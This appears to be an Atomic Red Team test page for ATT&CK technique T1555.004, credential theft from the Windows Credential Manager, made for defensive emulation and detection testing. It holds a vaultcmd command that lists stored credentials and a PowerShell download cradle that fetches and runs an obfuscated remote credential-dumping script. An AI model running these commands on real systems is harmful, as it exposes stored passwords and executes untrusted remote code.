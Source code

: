 # T1555.004 - Credentials from Password Stores: Windows Credential Manager

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1555/004)

<blockquote>Adversaries may acquire credentials from the Windows Credential Manager. The Credential Manager stores credentials for signing into websites, applications, and/or devices that request authentication through NTLM or Kerberos in Credential Lockers (previously known as Windows Vaults).(Citation: Microsoft Credential Manager store)(Citation: Microsoft Credential Locker)

The Windows Credential Manager separates website credentials from application or network credentials in two lockers. As part of [Credentials from Web Browsers](https://attack.mitre.org/techniques/T1555/003), Internet Explorer and Microsoft Edge website credentials are managed by the Credential Manager and are stored in the Web Credentials locker. Application and network credentials are stored in the Windows Credentials locker.

Credential Lockers store credentials in encrypted `.vcrd` files, located under `%Systemdrive%\Users\\[Username]\AppData\Local\Microsoft\\[Vault/Credentials]\`. The encryption key can be found in a file named <code>Policy.vpol</code>, typically located in the same folder as the credentials.(Citation: passcape Windows Vault)(Citation: Malwarebytes The Windows Vault)

Adversaries may list credentials managed by the Windows Credential Manager through several mechanisms. <code>vaultcmd.exe</code> is a native Windows executable that can be used to enumerate credentials stored in the Credential Locker through a command-line interface. Adversaries may also gather credentials by directly reading files located inside of the Credential Lockers. Windows APIs, such as <code>CredEnumerateA</code>, may also be absued to list credentials managed by the Credential Manager.(Citation: Microsoft CredEnumerate)(Citation: Delpy Mimikatz Crendential Manager)

Adversaries may also obtain credentials from credential backups. Credential backups and restorations may be performed by running <code>rundll32.exe keymgr.dll KRShowKeyMgr</code> then selecting the “Back up...” button on the “Stored User Names and Passwords” GUI.

Password recovery tools may also obtain plain text passwords from the Credential Manager.(Citation: Malwarebytes The Windows Vault)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Access Saved Credentials via VaultCmd](#atomic-test-1---access-saved-credentials-via-vaultcmd)

- [Atomic Test #2 - WinPwn - Loot local Credentials - Invoke-WCMDump](#atomic-test-2---winpwn---loot-local-credentials---invoke-wcmdump)

<br/>

## Atomic Test #1 - Access Saved Credentials via VaultCmd

List credentials currently stored in Windows Credential Manager via the native Windows utility vaultcmd.exe
Credential Manager stores credentials for signing into websites, applications, and/or devices that request authentication through NTLM or Kerberos
https://blog.malwarebytes.com/101/2016/01/the-windows-vaults/
https://medium.com/threatpunter/detecting-adversary-tradecraft-with-image-load-event-logging-and-eql-8de93338c16

**Supported Platforms:** Windows

**auto_generated_guid:** 9c2dd36d-5c8b-4b29-8d72-a11b0d5d7439

#### Attack Commands: Run with `command_prompt`!

```cmd
vaultcmd /listcreds:"Windows Credentials"
```

<br/>
<br/>

## Atomic Test #2 - WinPwn - Loot local Credentials - Invoke-WCMDump

Loot local Credentials - Invoke-WCMDump technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** fa714db1-63dd-479e-a58e-7b2b52ca5997

#### Attack Commands: Run with `powershell`!

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/obfuscatedps/DumpWCM.ps1')
Invoke-WCMDump
```

<br/>
